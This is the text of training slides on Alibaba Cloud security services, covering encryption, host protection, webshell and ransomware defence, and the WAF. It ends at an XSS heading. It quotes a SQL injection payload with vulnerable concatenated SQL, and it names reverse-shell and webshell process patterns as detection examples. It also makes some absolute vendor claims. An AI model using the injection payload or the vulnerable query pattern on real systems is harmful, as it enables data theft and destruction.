Module 09: Security Products & Defense Architecture
Agenda & Learning Objectives
- Security Architecture & Defense Hierarchy
- Data & Storage Security
- Host & Workload Protection
- Web Application Firewall (WAF)
- Network Security & Anti-DDoS
- Security Operations & Best Practices
Alibaba Cloud Security Services
Alibaba Cloud Security provides an enterprise-grade, multi-dimensional security ecosystem engineered from over 15 years of hyperscale defense experience protecting the Alibaba Group and millions of enterprise cloud customers.
Compared to traditional fragmented perimeter tools, Alibaba Cloud Security integrates deep defense-in-depth across physical infrastructure, virtualization, network boundaries, application runtimes, and persistent data tiers with unified AI-driven threat intelligence.
🛡️ Multi-Layer Defense
Deep defense-in-depth spanning perimeter, network, host, application, and data layers.
⚡ Hyperscale Resilience
Defends against multi-terabit volumetric attacks with automated near-source scrubbing.
🧠 AI Threat Intelligence
Machine learning behavioral models identifying 0-day exploits and malicious bots in real-time.
🔒 Zero Trust Governance
Granular RAM identities, MFA, least-privilege policies, and end-to-end cryptographic enforcement.
📜 Compliance Assured
Full regulatory compliance with ISO 27001, SOC 1/2/3, PCI-DSS, GDPR, and MLPS Level 3/4.
Hyperscale Defense: Proven at Global Scale

Battle-Tested Enterprise Defense
Alibaba Cloud operates one of the world's largest commercial cloud defense operations:
- Broadest Web Protection: Safeguards over 40% of all public websites operating in China against cyber espionage and extortion.
- Continuous High-Volume Mitigation: Neutralizes over 3.6 billion cyber attacks daily, including sophisticated Layer 7 CC floods and multi-vector exploits.
- The Double 11 E-Commerce Benchmark: Provides uncompromised 100% availability during the world's largest flash-sale transactions without a single security breach.
Strategic Threat Intelligence Synergy
Every attack absorbed across the cloud instantly strengthens security for every enterprise tenant:
- Petabyte Log Telemetry: Machine learning clusters parse global attack vectors to identify newly emergent malicious IP pools within seconds.
- Automated Rule Propagation: WAF and Anti-DDoS defense rules update automatically without requiring manual tenant interventions.
Multi-Layer Cloud Security Architecture

Foundational Infrastructure Tiers
- Physical Security: Biometric mantrap access, 24/7 video surveillance, redundant power, and environmental controls across all hyperscale datacenters.
- Hardware Security: Custom-engineered server chassis, hardware root-of-trust (RoT), TPM cryptoprocessors, and secure firmware verification.
- Virtualization Security: Proprietary hardware-accelerated hypervisor isolating tenant memory spaces and preventing cross-VM side-channel leaks.
Cloud Platform & Customer Tiers
- Cloud System Security: Apsara distributed operating system core security, Pangu multi-replica data sharding, and isolated internal SDN fabrics.
- Customer Workload Security: Full tenant control over VPC segmentation, Security Group micro-segmentation, RAM identities, and data encryption keys.
Shared Responsibility Model for Cloud Security
| Architecture Component | On-Premises | IaaS (ECS, VPC) | PaaS (RDS, PolarDB) | SaaS (DirectMail) |
|---|---|---|---|---|
| Customer Data & Access Controls | Customer | Customer | Customer | Customer |
| Application Code & Logic | Customer | Customer | Customer | Alibaba Cloud |
| Operating System & Patching | Customer | Customer | Alibaba Cloud | Alibaba Cloud |
| Database Engine & High Availability | Customer | Customer | Alibaba Cloud | Alibaba Cloud |
| Hypervisor & SDN Virtualization | Customer | Alibaba Cloud | Alibaba Cloud | Alibaba Cloud |
| Physical Hardware & Facilities | Customer | Alibaba Cloud | Alibaba Cloud | Alibaba Cloud |
Security OF the Cloud (Alibaba Cloud)
Alibaba Cloud guarantees the physical integrity, hardware health, hypervisor isolation, global network backbones, and managed service uptime.
Security IN the Cloud (Customer)
Customers maintain full authority and accountability over IAM/RAM access, security group rules, OS security patching, and application vulnerability hardening.
Security Service Family Matrix

Perimeter & Network Defense
- Anti-DDoS (Basic / Pro / Premium): Defends against Layer 3/4 volumetric floods up to multiple terabits with automated BGP and Anycast routing.
- Web Application Firewall (WAF): Filters malicious Layer 7 HTTP/HTTPS traffic, blocking SQL injection, XSS, and automated crawler bots.
- Cloud Firewall: Centralized northbound, southbound, and VPC east-west network traffic filtering and micro-segmentation.
Host, Identity & Operations
- Security Center (Server Guard): Endpoint detection and response (EDR), vulnerability patching, baseline checks, and webshell detection.
- Key Management Service (KMS): Cryptographic hardware security module (HSM) key lifecycle management and envelope encryption.
- Bastionhost: Centralized privileged access management (PAM) with full session recording, MFA, and command auditing.
Cloud Threat Vectors & Attack Surfaces
Network-Layer Vectors
- Volumetric SYN/UDP Floods: Saturating gateway pipes to disrupt legitimate customer connectivity.
- Amplification Attacks: Exploiting misconfigured DNS, NTP, and Memcached servers to multiply attack volume.
- State-Table Exhaustion: Flooding firewalls with half-open connections to crash connection tables.
Application-Layer Exploits
- OWASP Top 10 Exploits: SQL injection, Cross-Site Scripting (XSS), CSRF, and XML External Entity (XXE) flaws.
- Challenge Collapsar (CC): Flooding expensive search or report URIs with valid HTTP GET/POST queries.
- Scraping & Account Takeover: Automated botnets scraping pricing data and brute-forcing credentials.
Host & Identity Risks
- Webshell Backdoors: Uploading server-side scripts through unvalidated file upload handlers.
- Unpatched OS Vulnerabilities: Exploiting known CVEs in outdated Linux kernels or web server packages.
- Credential Exfiltration: Leaking hardcoded AccessKeys or granting excessive administrator permissions.
End-to-End Cloud Data Security Lifecycle

Data in Transit (Transmission Security)
- Mandatory Cryptographic Protocols: Enforce TLS 1.2 and TLS 1.3 across all public endpoints and internal service boundaries.
- HTTPS Redirection: Automatically redirect HTTP port 80 requests to secure HTTPS port 443 at the edge (CDN, SLB).
- Private Network Isolation: Route confidential traffic exclusively over VPC private SDN and PrivateLink without public exposure.
Data at Rest (Storage Security)
- Envelope Encryption: Transparent Data Encryption (TDE) for RDS disks and Server-Side Encryption (SSE) for OSS objects.
- Hardware-Backed Keys: Customer Master Keys (CMK) generated and safeguarded inside FIPS 140-2 Level 3 compliant HSMs.
- Point-in-Time Recovery: Automated snapshot chains and continuous database binlog archiving for disaster recovery.
Alibaba Cloud SSL Certificates Service
Centralized Certificate Lifecycle Management
Alibaba Cloud SSL Certificates Service provides automated procurement, deployment, and renewal of digital server certificates:
- Trusted Certificate Authorities (CAs): Direct platform partnerships with DigiCert, GeoTrust, GlobalSign, and vTrus.
- Flexible Certificate Tiers: Supports Domain Validation (DV), Organization Validation (OV), Extended Validation (EV), Multi-Domain (SAN), and Wildcard certificates.
- Automated Domain Verification: Automated DNS record synchronization via Alibaba Cloud DNS eliminates manual verification delays.
- Proactive Expiry Alerts: Automated notifications via SMS, Email, and DingTalk delivered 30, 15, and 3 days before expiration.
One-Click Cloud-Native Deployment
Seamlessly push verified digital certificates across the entire Alibaba Cloud application delivery pipeline:
- Server Load Balancer (SLB): Bind certificates directly to HTTPS listeners to offload CPU-intensive TLS handshakes from backend servers.
- Content Delivery Network (CDN): Deploy certificates to 3,200+ edge nodes globally with a single console action.
- Web Application Firewall (WAF): Decrypt incoming HTTPS traffic in memory for deep packet inspection without saving private keys on disk.
- Zero Downtime Rollover: Automatic hot-swapping of renewed certificates without terminating active user TCP connections.
The SSL / TLS 1.3 Handshake Workflow

Protocol Handshake Mechanics
- Step 1: Client Hello: Client sends supported TLS versions, cipher suites list, and a random cryptographic byte string.
- Step 2: Server Hello & Certificate: Server selects the strongest mutual cipher suite, returns its digital certificate, and sends server random bytes.
- Step 3: Verification & Pre-Master Secret: Client validates certificate signature against trusted root CAs and transmits encrypted Pre-Master Secret.
- Step 4: Session Key Derivation: Both parties compute identical symmetric session keys (AES-256-GCM) from the shared secret.
- Step 5: Finished & Encrypted Tunnel: All subsequent HTTP requests and responses travel across the high-speed symmetric encrypted channel.
Enterprise Multi-Product SSL Deployment

Cohesive Perimeter Offloading
- Edge Offloading: CDN edge nodes and Anti-DDoS scrubbing centers terminate TLS near the client, reducing round-trip latency.
- Layer 7 Security Inspection: WAF inspects decrypted HTTP requests for malicious payloads (SQLi, XSS) before re-encrypting traffic to SLB.
- Hardware-Accelerated SLB: Server Load Balancers leverage specialized cryptographic accelerators to handle 100,000+ TLS handshakes per second.
Backend Encryption Flexibility
- SSL Termination Mode: Decrypt at SLB and forward HTTP over private VPC backbones to maximize backend compute efficiency.
- End-to-End SSL Mode: SLB re-encrypts traffic over HTTPS to backend ECS instances to satisfy strict banking and medical compliance mandates.
OSS Storage Security & Encryption
Server-Side Encryption (SSE) Models
- SSE-OSS (Fully Managed): OSS handles encryption and key management transparently using industry-standard AES-256. Zero operational overhead or separate key fees.
- SSE-KMS (Customer Controlled): Uses envelope encryption with keys managed in Key Management Service (KMS). Allows automated annual key rotation and fine-grained RAM key access policies.
- BYOK (Bring Your Own Key): Import custom proprietary cryptographic keys into KMS HSMs to maintain strict cryptographic sovereignty.
- Client-Side Encryption: Data is encrypted by client applications before traversing the network; OSS only ever stores opaque ciphertext.
Perimeter & Tamper-Proof Controls
- VPC Boundary Bucket Policies: Explicitly deny all bucket access requests originating from outside designated VPC perimeters, neutralizing leaked AccessKey threats.
- Write Once, Read Many (WORM): Bucket retention policies lock objects into an immutable state (up to 70 years). Even root account administrators cannot delete locked records.
- Pre-Signed URLs: Generate temporary, cryptographically signed URLs for direct client uploads/downloads with strict time-to-live (TTL) expiration.
- Object Versioning: Protects against accidental overwrites and ransomware by preserving historical object iterations.
RDS Database Security & SSL Encryption

Connection & Network Safeguards
- End-to-End SSL/TLS: Enforce SSL encryption between ECS application servers and RDS instances, completely eliminating packet sniffing.
- IP Whitelist Matrix: Configure up to 1,000 IP addresses across 50 dedicated whitelist groups; unlisted IPs receive instant connection drops.
- VPC Internal Endpoints: Restrict database access strictly to internal VPC IP addresses; disable public internet endpoints entirely.
Storage Encryption & Audit
- Transparent Data Encryption (TDE): Real-time disk encryption for database files, transaction logs, and snapshots using AES-256 keys managed in KMS.
- SQL Audit Logging: Records every incoming SQL statement (DDL/DML), client IP, execution latency, and affected rows for regulatory forensic audits.
Integrated Secure Cloud Architecture

Defense-in-Depth Layering
- Edge Ingestion: Traffic enters through Anti-DDoS and WAF, stripping volumetric and application-layer attacks.
- Compute Decoupling: Server Load Balancers distribute sanitized traffic across auto-scaling ECS clusters in private subnets.
- Data Core Hardening: Persistent state resides in encrypted RDS and OSS tiers accessible only through strict security group rules.
Resilience & Data Recovery
- Automated Disk Snapshots: Crash-consistent snapshot policies for ECS system and data disks.
- Cross-Zone RDS Active-Standby: Synchronous replication between availability zones with 30-second automated failover.
Alibaba Cloud Security Center Overview
Cloud-Native Workload Protection (CWPP)
Security Center (formerly Server Guard) provides real-time threat detection, automated vulnerability management, and host baseline auditing:
- Ultralight Daemon Agent: Installed across ECS instances, bare-metal servers, container nodes, and hybrid on-premises machines. Consumes <1% CPU and <50 MB RAM.
- Kernel-Level Event Hooks: Intercepts operating system system calls (syscalls), process spawning, network sockets, and file system modifications in real-time.
- Hybrid & Multi-Cloud Visibility: Single pane of glass managing Linux (CentOS, Ubuntu, Debian, Alibaba Cloud Linux) and Windows Server instances across any cloud.
Core Operational Capabilities
- Trojan Virus & Webshell Detection: AI-driven behavioral models identifying obfuscated malware, reverse shells, and malicious dropper scripts.
- Automated Vulnerability Management: Continuous scanning of Linux/Windows CVEs, Web CMS flaws, and 0-day disclosures with one-click automated hotfixing.
- Security Baseline Inspection: Audits host OS configurations against CIS benchmarks, identifying weak passwords and exposed administrative ports.
- Automated Defense Response: Instant IP blocking, process quarantine, and automated emergency snapshot creation upon ransomware detection.
Webshell Attack Mechanics & Defense

The Webshell Threat Lifecycle
- Step 1: Exploitation: Attackers exploit arbitrary file upload flaws, SQL injection into files (INTO OUTFILE), or remote code execution (RCE).
- Step 2: Script Planting: Malicious server-side scripts (PHP, JSP, ASPX) are written into web directories.
- Step 3: Execution & C2: The attacker accesses the planted script over HTTP to execute arbitrary OS commands, exfiltrate data, and pivot across the VPC.
Security Center Dynamic Detection
- Beyond Static Signatures: Obfuscated and encrypted webshells bypass simple string pattern matchers.
- Dynamic Process Lineage: Detects abnormal parent-child relationships (e.g. web server
php-fpmspawning/bin/bashorcurl). - Automated Quarantine: Instantly isolates malicious script files and terminates associated shell processes.
Vulnerability Scanning & Automated Patching
Multi-Vector Vulnerability Scanners
Security Center scans instances against comprehensive vulnerability intelligence databases:
- Linux Software Vulnerabilities: Scans system packages (RPM, DEB) for published Common Vulnerabilities and Exposures (CVEs) in OpenSSL, sudo, glibc, etc.
- Windows Security Updates: Identifies missing Windows Server cumulative rollups and remote execution flaws.
- Web-CMS Vulnerabilities: Detects flaws in popular application frameworks including WordPress, Discuz!, ThinkPHP, and Apache Struts.
- Emergency 0-Day Advisories: Alibaba Cloud threat researchers rapidly push detection signatures within hours of global vulnerability disclosures.
Safe & Automated Remediation
Enterprise vulnerability patching engineered to prevent production service disruption:
- Pre-Patch Snapshot Safety Net: Automatically generates an instantaneous ECS disk snapshot prior to applying any system updates, ensuring 1-click rollback.
- Live Kernel Hotpatching: Applies critical security fixes to the running operating system kernel without requiring instance reboots.
- Staged Batch Rollout: Orchestrates staggered updates across server fleets to maintain service availability during maintenance windows.
Host Baseline Auditing & Hardening
Standardized Security Benchmarks
Continuous compliance inspection aligned with CIS (Center for Internet Security) standards:
- Weak Password Detection: Flags operating system accounts, database users, and service passwords vulnerable to dictionary attacks.
- Unnecessary Services & Ports: Identifies unneeded daemons (e.g. Telnet, FTP, rlogin) listening on public network interfaces.
- SSH Hardening Audits: Detects insecure SSH configurations, including root login enabled over SSH, empty passwords permitted, or obsolete cipher suites.
- Access Permission Verification: Audits sensitive file system permissions on
/etc/passwd,/etc/shadow, and web configuration files.
Automated Remediation & Reports
- One-Click Hardening: Apply standardized security baselines across hundreds of servers simultaneously via automated scripts.
- Compliance Gap Analysis: Generates executive audit reports demonstrating alignment with China MLPS Level 3, ISO 27001, and SOC 2 requirements.
- Drift Detection: Alerts administrators immediately when unauthorized configuration modifications deviate from the approved baseline.
Intrusion Detection & Ransomware Defense
Real-Time Intrusion Interception
- Brute-Force Attack Blocking: Detects repetitive SSH, RDP, and MySQL authentication failures; automatically blocks offending source IPs at the host kernel firewall.
- Malicious Process Neutralization: Immediately terminates unauthorized cryptocurrency miners, DDoS botnet agents, and unauthorized port scanners.
- Reverse Shell Detection: Flags outbound TCP connections spawned from standard system utilities (e.g.
nc,bash -i,python) attempting to reach external C2 servers. - Account Anomaly Tracking: Alerts on unexpected logins from unusual geographic locations, atypical login times, or privileged account creation.
Anti-Ransomware Safeguards
- File Integrity Monitoring (FIM): Kernel-level surveillance tracking mass file modification and rapid extension renaming typical of ransomware encryption routines.
- Automated Emergency Snapshots: Triggers instantaneous disk snapshots upon detecting suspicious mass file operations, safeguarding unencrypted data.
- Anti-Ransomware Vault: Isolated backup vault with immutable recovery points to guarantee business continuity without paying extortion ransoms.
Security Center Edition Feature Matrix
| Security Capability | Basic (Free) | Advanced | Enterprise | Ultimate |
|---|---|---|---|---|
| Trojan & Virus Detection | ✔ Core Scans | ✔ Real-time | ✔ Real-time AI | ✔ Real-time AI |
| Vulnerability Detection (CVE) | ✔ Scan Only | ✔ Scan & Fix | ✔ Scan, Fix & 0-Day | ✔ Scan, Fix & 0-Day |
| Baseline Compliance Auditing | ✖ | ✔ Standard | ✔ CIS & Custom | ✔ CIS & Custom |
| Webshell Dynamic Detection | ✖ | ✔ Signature | ✔ Behavioral AI | ✔ Behavioral AI |
| Anti-Ransomware Protection | ✖ | ✖ | ✔ Automated Snapshots | ✔ Automated Snapshots |
| Container Runtime Defense | ✖ | ✖ | ✔ K8s / ACK Nodes | ✔ Full Cloud-Native |
| Threat Hunting & Investigation | ✖ | ✖ | ✖ | ✔ Full Traceability |
Layer 7 Threats vs. Network Firewalls
The Limitation of Traditional Firewalls
Traditional network firewalls and Security Groups operate exclusively at Layer 3 and Layer 4:
- Blind to HTTP Payloads: Security groups must allow inbound TCP port 80 (HTTP) and port 443 (HTTPS) for public web traffic to function.
- Inability to Inspect Content: Once a TCP handshake is established, Layer 4 firewalls cannot inspect HTTP request headers, query parameters, cookies, or POST bodies.
- Exploiting Valid Connections: Application vulnerabilities are executed entirely inside valid, perfectly formed HTTP packets.
The Need for Web Application Firewall (WAF)
Alibaba Cloud WAF acts as an intelligent Layer 7 reverse proxy inspecting application traffic before it reaches origin servers:
- Deep Packet Inspection (DPI): Decodes and analyzes URI paths, JSON payloads, multipart form data, and HTTP headers.
- OWASP Top 10 Neutralization: Blocks SQL injection, Cross-Site Scripting (XSS), Local/Remote File Inclusion (LFI/RFI), and OS command execution.
- Zero-Day Virtual Patching: Applies instant cloud-side regex and semantic filters to block emerging exploits before developers patch source code.
SQL Injection Attack Mechanics & Defense

The Vulnerability Anatomy
- Raw String Concatenation: Vulnerable code constructs dynamic SQL:
SELECT * FROM Orders WHERE City = '" + City + "'. - Malicious Payload Injection: An attacker inputs
Beijing' OR '1'='1, transforming the query into a tautology that dumps all customer orders. - Severe Consequences: Bypasses authentication, extracts sensitive financial records, or drops database tables via
; DROP TABLE....
Alibaba Cloud WAF Defense
- Semantic SQL Parsing: WAF tokenizes the HTTP request into an Abstract Syntax Tree (AST) to evaluate syntax intent rather than simple string matching.
- Zero False Positives: Distinguishes legitimate searches containing apostrophes from actual SQL control structure injections.
Cross-Site Scripting (XSS) & CSRF Defense
